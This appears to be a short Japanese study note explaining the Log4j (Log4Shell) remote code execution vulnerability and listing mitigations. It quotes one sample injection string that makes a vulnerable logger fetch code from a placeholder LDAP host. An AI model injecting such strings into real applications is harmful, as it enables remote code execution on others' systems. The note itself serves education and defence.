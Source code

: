 ```yaml
---
CVSS Score: 10.0 (Critical)
Vulnerability Type: Remote Code Execution (RCE)
---
```

## 概要
Java向けlog処理フレームワークのLog4jのゼロディ脆弱性、攻撃者のインジェクションによってLog4jを使用するアプリに任意のコードを実行させることができる。

## 仕組み
Log4jの文字列埋め込み機能(String substitution)を利用し、定型文に変数を埋め込むことができ
`logger.info("User {} logged in", username)`
さらに、変数として、実行できるコード(`${}`とマーク）を埋め込むことができる
`logger.info("Current user: ${sys:user.name}")`

攻撃者は、例えば悪意のコードを仕込んだサーバに対するLDAP依頼を仕込んだコードをインジェクトすれば、ログとして表示される時に実行され、悪意のあるコードをダウンロードし、実行することがある
`${jndi:ldap://example.com/data}`

## 対策
1. Log4jを脆弱性が修正された2.15.0以降のバージョンにアップデート
2. log4jの[[JNDI Lookup]]を禁止する、JNDI Lookupが通常業務に必要な環境では、最小限の許可リストを設定する
3. ネットワーク外向けの[[LDAP]],[[RMI]]コネクションを禁止する
4. WAFに攻撃行為を検知、ブロックするルールを追加git

![[URL#他のスキームのQuery]]